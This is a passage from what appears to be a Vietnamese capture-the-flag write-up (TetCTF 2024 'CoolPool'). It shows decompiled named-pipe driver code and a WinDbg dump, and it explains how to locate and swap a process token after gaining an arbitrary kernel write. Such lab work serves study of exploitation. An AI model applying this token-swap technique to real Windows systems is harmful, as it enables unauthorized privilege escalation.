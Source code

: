 ```
              }
            }
          }
        }
        next_entry = next_entry->list_entry.Flink;
        ByteOffset = 0;
        if ( next_entry == data_queue )
          break;
      }
    }
    data_queue->QuotaUsed = data_queue->Quota - v29;
  }
  return a1;
}

```

Vậy là chúng ta đã hoàn thành Arbitrary Write!!

### [](https://dungnm.hashnode.dev/pwn-coolpool-tetctf2024#heading-swap-token "Permalink")Swap Token

Để swap được thì chúng ta cần biết nó nằm ở đâu, ở mỗi process sẽ có một LIST_ENTRY tên là `ActiveProcessLinks` (_EPROCESS), nó sẽ link tất cả process với nhau nên từ một process bất kì các bạn có thể tìm được process tiếp theo. Nhưng bây giờ chúng ta cần phải tìm được một process bất kì, mình sẽ lợi dụng `ListThreadEntry` của IRP để làm điều này.

Các bạn có thể đọc thêm về [IRP](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_irp) để hiểu rõ hơn, mỗi IRP Object thì sẽ có trường là LIST_ENTRY`ThreadListEntry`, theo như mình reverse và đọc từ các nguồn khác thì mình thấy rằng Flink ở trường `ThreadListEntry` sẽ trỏ tới `_ETHREAD` của thread tương ứng đang yêu cầu IRP này, giả sử mình có một IRP như sau

Copy

Copy

```
1: kd> dt _IRP ffff860c33fd7710
ntdll!_IRP
   +0x000 Type             : 0n6
   +0x002 Size             : 0x358
   +0x004 AllocationProcessorNumber : 0
   +0x006 Reserved         : 0
   +0x008 MdlAddress       : (null)
   +0x010 Flags            : 0x60830
   +0x018 AssociatedIrp    : <anonymous-tag>
   +0x020 ThreadListEntry  : _LIST_ENTRY [ 0xffff860c`32ba5530 - 0xffff860c`3326f030 ]
   +0x030 IoStatus         : _IO_STATUS_BLOCK
   +0x040 RequestorMode    : 1 ''
   +0x041 PendingReturned  : 0 ''
   +0x042 StackCount       : 2 ''
   +0x043 CurrentLocation  : 1 ''
   +0x044 Cancel           : 0 ''
   +0x045 CancelIrql       : 0 ''
   +0x046 ApcEnvironment   : 0 ''
   +0x047 AllocationFlags  : 0x14 ''
   +0x048 UserIosb         : 0x00000000`0093b344 _IO_STATUS_BLOCK
   +0x050 UserEvent        : (null)
   +0x058 Overlay          : <anonymous-tag>
   +0x068 CancelRoutine    : 0xfffff804`5ead1010     void  Npfs!NpCancelDataQueueIrp+0
   +0x070 UserBuffer       : (null)
   +0x078 Tail             : <anonymous-tag>
1: kd> dt _LIST_ENTRY ffff860c33fd7710+20
ntdll!_LIST_ENTRY
 [ 0xffff860c`32ba5530 - 0xffff860c`3326f030 ]
```